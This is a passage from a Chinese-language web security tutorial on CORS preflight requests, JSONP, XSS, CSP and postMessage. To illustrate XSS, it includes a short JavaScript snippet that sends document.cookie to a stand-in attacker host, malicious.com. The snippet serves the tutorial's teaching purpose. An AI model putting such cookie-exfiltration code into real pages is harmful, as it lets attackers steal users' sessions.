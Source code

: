 缺点：
1. 存在兼容性问题，特别是 IE10 以下的浏览器。
2. 第一次发送非简单请求时会多一次请求。

### 为什么CORS要有预检请求呢？
* 减少非简单跨域请求对服务器的影响（开始时就提到，服务器有时候不想理睬跨域请求），比如PUT、DELETE请求可以直接新建或者修改、删除服务器中的资源。预检请求可以防止该情况发生。

* 减少服务器对于是否跨域的计算量。服务器会缓存预检请求的结果，通过`Access-Control-Max-Age`这个头部信息标明缓存多长时间。而且一次预检请求通过后，之后浏览器发送的请求只要在缓存期内，都只会发正式请求。节约了很多服务端的计算量。

## 页面中可以嵌入第三方资源 - JSONP
最初的浏览器都是支持外部引用资源文件的。比如用`<script>`标签引入的js文件(`<script>`不受同源策略限制)。

不过这也带来了很多问题。之前在开发浏览器的时候，遇到最多的一个问题是浏览器的首页内容会被一些恶意程序劫持，劫持的途径很多，其中最常见的是恶意程序通过各种途径往 HTML 文件中插入恶意脚本。

<img src='./picture/safe/pic3.png' width=60%/>

这段 HTML 文件的数据被送达浏览器时，浏览器是无法区分被插入的文件是恶意的还是正常的。

当你不小心点击了页面中的一个恶意链接时，恶意 JavaScript 代码可以读取页面数据并将其发送给服务器，如下面这段伪代码：
```js
function onClick(){
  let url = `http://malicious.com?cookie = ${document.cookie}`
  open(url)
}
onClick()
```

以上就是一个非常典型的` XSS 攻击`。

为了解决 XSS 攻击，浏览器中引入了内容安全策略，称为 `CSP`。CSP 的核心思想是让服务器决定浏览器能够加载哪些资源，让服务器决定浏览器是否能够执行内联 JavaScript 代码。通过这些手段就可以大大减少 XSS 攻击。

## postMessage跨域
window.postMessage方法是 HTML5 新引进的特性，可以使用它来向其它的 window 对象发送消息，无论这个 window 对象是属于同源或不同源。可以用它来解决 `dom 跨域`问题。
